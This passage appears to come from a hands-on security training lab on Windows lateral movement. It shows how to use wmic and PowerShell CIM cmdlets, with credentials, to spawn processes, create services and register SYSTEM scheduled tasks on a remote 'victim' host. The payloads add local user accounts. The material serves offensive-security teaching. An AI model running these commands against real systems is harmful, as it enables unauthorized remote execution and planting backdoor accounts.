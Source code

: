 Notice that WMI won't allow you to see the output of any command but will indeed create the required process silently.

On legacy systems, the same can be done using wmic from the command prompt:

```shell-session
wmic.exe /user:Administrator /password:Mypass123 /node:$VICTIM process call create "cmd.exe /c calc.exe" 

```

### Creating Services Remotely with WMI

* **Ports:**
  * 135/TCP, 49152-65535/TCP (DCERPC)
  * 5985/TCP (WinRM HTTP) or 5986/TCP (WinRM HTTPS)
* **Required Group Memberships:** Administrators

We can create services with WMI through Powershell. To create a service called THMService2, we can use the following command:

```powershell
Invoke-CimMethod -CimSession $Session -ClassName Win32_Service -MethodName Create -Arguments @{
Name = "THMService2";
DisplayName = "THMService2";
PathName = "net user munra2 Pass123 /add"; # Your payload
ServiceType = [byte]::Parse("16"); # Win32OwnProcess : Start service in a new process
StartMode = "Manual"
}
```

And then, we can get a handle on the service and start it with the following commands:

```powershell
$Service = Get-CimInstance -CimSession $Session -ClassName Win32_Service -filter "Name LIKE 'THMService2'"

Invoke-CimMethod -InputObject $Service -MethodName StartService
```

Finally, we can stop and delete the service with the following commands:

```powershell
Invoke-CimMethod -InputObject $Service -MethodName StopService
Invoke-CimMethod -InputObject $Service -MethodName Delete
```

### Creating Scheduled Tasks Remotely with WMI

* **Ports:**
  * 135/TCP, 49152-65535/TCP (DCERPC)
  * 5985/TCP (WinRM HTTP) or 5986/TCP (WinRM HTTPS)
* **Required Group Memberships:** Administrators

We can create and execute scheduled tasks by using some cmdlets available in Windows default installations:

```powershell
# Payload must be split in Command and Args
$Command = "cmd.exe"
$Args = "/c net user munra22 aSdf1234 /add"

$Action = New-ScheduledTaskAction -CimSession $Session -Execute $Command -Argument $Args
Register-ScheduledTask -CimSession $Session -Action $Action -User "NT AUTHORITY\SYSTEM" -TaskName "THMtask2"
Start-ScheduledTask -CimSession $Session -TaskName "THMtask2"
```
